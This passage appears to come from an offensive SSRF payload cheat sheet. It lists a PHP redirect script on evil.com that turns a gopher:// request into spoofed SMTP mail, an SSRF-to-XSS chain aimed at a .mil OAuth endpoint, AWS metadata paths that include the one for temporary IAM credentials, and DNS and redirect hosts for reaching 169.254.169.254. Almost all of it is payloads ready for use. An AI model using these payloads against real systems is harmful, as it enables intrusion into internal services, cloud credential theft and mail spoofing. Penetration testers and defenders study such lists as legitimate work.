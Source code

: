 **Gopher SMTP — send a mail**

```php
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );
        $payload = implode('%0A', $commands);
        header('Location: gopher://0:25/_'.$payload);
?>
```

**SSRF to XSS**

by @D0rkerDevil & @alyssa.o.herrera

```
http://brutelogic.com.br/poc.svg -> simple alert
https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri= -> simple ssrf
https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg
```

**SSRF URL for Cloud Instances**

**SSRF URL for AWS Bucket**

```http
Docs Interesting path to look for at http://169.254.169.254
Always here : /latest/meta-data/{hostname,public-ipv4,...}
User data (startup script for auto-scaling) : /latest/user-data
Temporary AWS credentials : /latest/meta-data/iam/security-credentials/
```

**DNS record**

```http
http://169.254.169.254
http://metadata.nicob.net/
http://169.254.169.254.xip.io/
http://1ynrnhl.xip.io/
http://www.owasp.org.1ynrnhl.xip.io/
```

**HTTP redirect**

```http
Static:http://nicob.net/redir6a
Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
```
